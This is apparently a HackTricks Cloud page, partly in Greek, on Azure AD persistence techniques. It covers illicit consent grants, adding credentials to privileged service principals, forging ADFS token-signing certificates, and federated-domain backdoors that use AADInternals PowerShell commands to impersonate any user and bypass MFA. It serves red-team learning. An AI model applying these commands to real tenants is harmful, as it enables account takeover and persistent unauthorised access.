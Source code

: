 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

Κατά προεπιλογή, οποιοσδήποτε χρήστης μπορεί να καταχωρήσει μια εφαρμογή στο Azure AD. Έτσι, μπορείτε να καταχωρήσετε μια εφαρμογή (μόνο για τον στόχο ενοικιαστή) που χρειάζεται δικαιώματα υψηλής επιρροής με τη συγκατάθεση διαχειριστή (και να την εγκρίνετε αν είστε ο διαχειριστής) - όπως η αποστολή email εκ μέρους ενός χρήστη, η διαχείριση ρόλων κ.λπ. Αυτό θα μας επιτρέψει να **εκτελέσουμε επιθέσεις phishing** που θα ήταν πολύ **κερδοφόρες** σε περίπτωση επιτυχίας.

Επιπλέον, θα μπορούσατε επίσης να αποδεχθείτε αυτή την εφαρμογή με τον χρήστη σας ως τρόπο διατήρησης πρόσβασης σε αυτήν.

### Applications and Service Principals

Με προνόμια Διαχειριστή Εφαρμογών, GA ή έναν προσαρμοσμένο ρόλο με δικαιώματα microsoft.directory/applications/credentials/update, μπορούμε να προσθέσουμε διαπιστευτήρια (μυστικό ή πιστοποιητικό) σε μια υπάρχουσα εφαρμογή.

Είναι δυνατόν να **στοχεύσουμε μια εφαρμογή με υψηλά δικαιώματα** ή **να προσθέσουμε μια νέα εφαρμογή** με υψηλά δικαιώματα.

Ένας ενδιαφέρον ρόλος για να προστεθεί στην εφαρμογή θα ήταν ο **ρόλος διαχειριστή προνομιακής πιστοποίησης** καθώς επιτρέπει να **επαναφέρετε τον κωδικό πρόσβασης** των Παγκόσμιων Διαχειριστών.

Αυτή η τεχνική επιτρέπει επίσης να **παρακαμφθεί το MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Για αυθεντικοποίηση με βάση πιστοποιητικά

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Ομοσπονδία - Πιστοποιητικό Υπογραφής Token

Με **DA δικαιώματα** στο on-prem AD, είναι δυνατό να δημιουργήσουμε και να εισάγουμε **νέα πιστοποιητικά υπογραφής Token** και **πιστοποιητικά αποκρυπτογράφησης Token** που έχουν πολύ μεγάλη διάρκεια ισχύος. Αυτό θα μας επιτρέψει να **συνδεθούμε ως οποιοσδήποτε χρήστης** του οποίου το ImuutableID γνωρίζουμε.

**Εκτελέστε** την παρακάτω εντολή ως **DA στον ADFS server(s)** για να δημιουργήσετε νέα πιστοποιητικά (προεπιλεγμένος κωδικός 'AADInternals'), να τα προσθέσετε στο ADFS, να απενεργοποιήσετε την αυτόματη ανανέωση και να επανεκκινήσετε την υπηρεσία:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Τότε, ενημερώστε τις πληροφορίες πιστοποίησης με το Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

Με δικαιώματα GA σε έναν ενοικιαστή, είναι δυνατόν να **προσθέσετε ένα νέο τομέα** (πρέπει να επαληθευτεί), να ρυθμίσετε τον τύπο αυθεντικοποίησής του σε Federated και να ρυθμίσετε τον τομέα να **εμπιστεύεται ένα συγκεκριμένο πιστοποιητικό** (any.sts στην παρακάτω εντολή) και εκδότη:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Αναφορές

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

